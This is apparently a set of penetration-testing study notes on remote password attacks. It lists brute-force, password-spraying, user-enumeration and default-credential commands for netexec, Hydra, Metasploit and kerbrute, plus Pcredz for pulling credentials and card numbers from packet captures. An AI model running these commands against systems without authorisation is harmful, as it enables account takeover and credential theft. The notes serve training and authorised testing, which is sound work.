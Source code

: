 # Remote Password Attacks

## Network Services and Credential Hunting

**Winrm**
````
$ netexec winrm <IP> -u user.list -p password.list
````

**Hydra: ssh, smb, rdp**
````
$ hydra -L user.list -P password.list ssh://<IP>
$ hydra -L user.list -P password.list rdp://<IP>
$ hydra -L user.list -P password.list smb://<IP>
$ hydra -l username -P password.list <service>://<ip>
------------------------------------------------
- Metasploit SMB -
msf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list
msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197
msf6 auxiliary(scanner/smb/smb_login) > set rhosts <IP>
````

**Password Spraying**
````
$ netexec smb <IP>/24 -u <usernames.list> -p 'ChangeMe123!'
$ kerbrute passwordspray -d test.local domain_users.txt password123
````

**Enumerate Valid Users**
````
$ ./kerbrute_linux_amd64 userenum --dc <IP> --domain <domain> <list_of_users>
````

**Credential Stuffing**

https://github.com/ihebski/DefaultCreds-cheat-sheet
````
$ creds search linksys
$ creds search tomcat
$ creds search <service>
````

**Network Traffic**

Pcredz is a tool that can be used to extract credentials from live traffic or network packet captures. Specifically, it supports extracting the following information:

Credit card numbers
POP credentials
SMTP credentials
IMAP credentials
SNMP community strings
FTP credentials
Credentials from HTTP NTLM/Basic headers, as well as HTTP Forms
NTLMv1/v2 hashes from various traffic including DCE-RPC, SMBv1/2, LDAP, MSSQL, and HTTP
Kerberos (AS-REQ Pre-Auth etype 23) hashes
````
https://github.com/lgandx/PCredz
$ ./Pcredz -f demo.pcapng -t -v
````



